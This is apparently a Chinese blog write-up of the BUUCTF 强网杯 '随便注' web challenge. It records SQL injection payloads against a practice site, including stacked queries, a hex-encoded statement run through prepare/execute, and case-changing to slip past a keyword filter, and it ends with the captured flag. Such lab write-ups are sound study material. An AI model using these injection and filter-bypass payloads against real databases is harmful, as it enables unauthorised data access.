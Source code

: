 ```yaml
---
layout: post
title: "BUUCTF 强网杯（WEB）随便注" 
subtitle: "BUUCTF 强网杯（WEB）随便注"
date: 2019-07-07
author: ppbibo
category: CTF
---
```


[TOC]

## BUUCTF 强网杯（WEB）随便注



## PS：

突然发现群里的大佬们都会玩CTF，而且CTF可以让你产生很多的骚思路，会磨去你的浮躁，别问我为什么；因此决定去学CTF。



## 0x1 堆叠注入

前期正常操作

```mysql
http://web16.buuoj.cn/?inject=1%27


-----回------显------
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

```mysql
http://web16.buuoj.cn/?inject=1%27 order by 2#
```

```mysql
http://web16.buuoj.cn/?inject=1%27 union select 1,2#


-----回------显------
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

## 0x2 堆叠注入

```mysql
http://web16.buuoj.cn/?inject=1%27;show tables;#


# 发现 1919810931114514 和 words 两个表
```

```mysql
http://web16.buuoj.cn/?inject=1%27;set@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#


-----回------显------
strstr($inject, "set") && strstr($inject, "prepare")
```

```bash
http://web16.buuoj.cn/?inject=1%27;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#

# -----回------显------ 
# SeT 大小写绕过，预处理的方法执行sql语句

array(1) {
  [0]=>
  string(38) "flag{3fy145hzdo5ryeho9za94r0qnbkvha0g}"
}

```

![ctf_asfgsin_sql@2x](/static/img/ctf_asfgsin_sql@2x.png)



## 舒服了😌

